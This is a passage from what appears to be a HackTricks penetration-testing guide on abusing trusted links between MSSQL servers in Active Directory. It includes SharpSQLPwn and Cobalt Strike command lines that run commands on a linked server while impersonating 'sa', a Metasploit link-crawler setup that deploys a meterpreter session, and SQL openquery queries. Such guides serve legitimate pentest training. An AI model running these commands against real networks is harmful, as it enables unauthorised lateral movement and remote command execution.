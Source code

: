 Another similar tool taht could be used is [**https://github.com/lefayjey/SharpSQLPwn**](https://github.com/lefayjey/SharpSQLPwn):

```bash
SharpSQLPwn.exe /modules:LIC /linkedsql:<fqdn of SQL to exeecute cmd in> /cmd:whoami /impuser:sa
# Cobalt Strike
inject-assembly 4704 ../SharpCollection/SharpSQLPwn.exe /modules:LIC /linkedsql:<fqdn of SQL to exeecute cmd in> /cmd:whoami /impuser:sa
```

#### [Metasploit](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#metasploit) <a href="#metasploit" id="metasploit"></a>

You can easily check for trusted links using metasploit.

```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```

Notice that metasploit will try to abuse only the `openquery()` function in MSSQL (so, if you can't execute command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)

#### [Manual - Openquery()](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#manual---openquery) <a href="#manual---openquery" id="manual---openquery"></a>

From **Linux** you could obtain a MSSQL console shell with **sqsh** and **mssqlclient.py.**

From **Windows** you could also find the links and execute commands manually using a **MSSQL client like** [**HeidiSQL**](https://www.heidisql.com/)

_Login using Windows authentication:_

![](https://book.hacktricks.wiki/en/images/image%20\(808\).png)

[**Find Trustable Links**](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#find-trustable-links)

```sql
select * from master..sysservers;
EXEC sp_linkedservers;
```

![](https://book.hacktricks.wiki/en/images/image%20\(716\).png)

[**Execute queries in trustable link**](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#execute-queries-in-trustable-link)

Execute queries through the link (example: find more links in the new accessible instance):

```sql
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
```
